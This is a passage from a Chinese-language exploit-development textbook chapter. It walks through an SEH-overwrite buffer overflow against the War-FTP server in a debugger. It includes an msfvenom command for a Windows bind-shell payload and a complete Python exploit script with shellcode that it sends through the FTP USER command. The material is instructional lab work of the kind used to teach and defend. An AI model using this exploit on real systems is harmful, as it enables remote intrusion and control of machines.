如示例 18-5 所示，这次我们将 NSEH（之前是四个 *B* 字符）替换为`"\xEB\x06" + "B" * 2`。在重新运行漏洞利用之前，重置你在 `POP POP RET` 处的断点，当你触发断点时，逐行单步调试程序（F7），查看发生了什么。现在，在 `POP POP RET` 之后，我们有了一个六字节的短跳转，如图 18-19 所示。

图 18-19. 执行被重定向到短跳转。

现在按下 **F7** 执行短跳转。如图 18-20 所示，短跳转成功绕过了 SEH 覆盖地址，并将执行重定向到我们攻击字符串的其余部分（*D* 字符）。

图 18-20. 短跳转使我们绕过了 SEH 覆盖。

## 选择有效载荷

我们现在已经第二次重定向了执行，跳转到了我们控制内存的更长部分——这是放置我们的 shellcode 的理想位置。接下来选择一个有效载荷，并使用 Msfvenom 生成，如下所示。

```
root@kali:~# msfvenom -p windows/shell_bind_tcp -s 573 -b '\x00\x40\x0a\x0d'
[*] x86/shikata_ga_nai succeeded with size 368 (iteration=1)
buf =
"\xbe\xa5\xfd\x18\xa6\xd9\xc6\xd9\x74\x24\xf4\x5f\x31\xc9" +
--*snip*--
```

记得告诉 Msfvenom 使用最大大小 573 字节，并排除我们为 FTP 用户名设置的坏字符。（再次提醒，尽管你可能能稍微增加一点长度，但我们最初的异常是因为我们写出了栈的末尾。我们想确保所有的 shellcode 都能执行。）现在将 shellcode 替换到漏洞中的*D*字符位置。为了使漏洞足够长以触发 SEH 覆盖（而不是我们在第十七章看到的保存的返回指针覆盖），将漏洞字符串填充至 1,150 个字符，使用*D*字符填充。完成的漏洞如示例 18-6 所示。我们的 shellcode 直接位于 SEH 覆盖之后。（在这个示例中，我们再次使用 Windows 绑定 shell。）

示例 18-6：完成的 SEH 覆盖漏洞

```
#!/usr/bin/python
import socket
shellcode = ("\xbe\xa5\xfd\x18\xa6\xd9\xc6\xd9\x74\x24\xf4\x5f\x31\xc9" +
"\xb1\x56\x31\x77\x13\x83\xc7\x04\x03\x77\xaa\x1f\xed\x5a" +
"\x5c\x56\x0e\xa3\x9c\x09\x86\x46\xad\x1b\xfc\x03\x9f\xab" +
"\x76\x41\x13\x47\xda\x72\xa0\x25\xf3\x75\x01\x83\x25\xbb" +
"\x92\x25\xea\x17\x50\x27\x96\x65\x84\x87\xa7\xa5\xd9\xc6" +
"\xe0\xd8\x11\x9a\xb9\x97\x83\x0b\xcd\xea\x1f\x2d\x01\x61" +
"\x1f\x55\x24\xb6\xeb\xef\x27\xe7\x43\x7b\x6f\x1f\xe8\x23" +
"\x50\x1e\x3d\x30\xac\x69\x4a\x83\x46\x68\x9a\xdd\xa7\x5a" +
--*snip*--
buffer = "A" * 569 + "\xEB\x06" + "B" * 2 + "\xCA\x80\x45\x5F" +  shellcode + "B" * 205
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect=s.connect(('192.168.20.10',21))
response = s.recv(1024)
print response
s.send('USER ' + buffer  + '\r\n')
response = s.recv(1024)
print response
s.close()
```

当 War-FTP 连接到 Immunity Debugger 时，我们必须手动告诉调试器将 SEH 传递给程序。当我们在没有调试器的情况下运行 War-FTP 并遇到错误时，执行会自动传递给 SEH，执行`POP POP RET`指令，短跳转，最后是我们的 shellcode。

## 总结

我们已经成功构建了 War-FTP 的 SEH 覆盖漏洞。虽然 War-FTP 允许我们通过直接覆盖返回地址或 SEH 来利用缓冲区溢出漏洞，但有些脆弱的程序不会以能够控制 EIP 的方式崩溃，但却允许你覆盖 SEH。在这种情况下，知道如何利用这种崩溃是创建有效漏洞的关键。由于结构化异常处理程序的工作方式，每次遇到这种崩溃时，你可以依赖 NSEH 总是在 ESP+8 的位置。当你覆盖 SEH 时，会发现在 ESP+8 处有指向下一个 SEH 记录的指针。在执行来自没有启用 SafeSEH 的模块的`POP POP RET`指令系列后，你需要执行一个短跳转来到达攻击字符串中的 shellcode。如果你继续进行漏洞开发，可能会遇到另一个挑战，其中`\xEB`是一个不良字符，因此你需要找到其他方法来执行跳转。

在下一章中，我们将通过一些零碎的内容完成对漏洞开发基础的学习，比如使用一种叫做*fuzzing*的技术首次发现崩溃，将公共漏洞代码移植以满足我们的需求，以及编写我们自己的 Metasploit 模块。
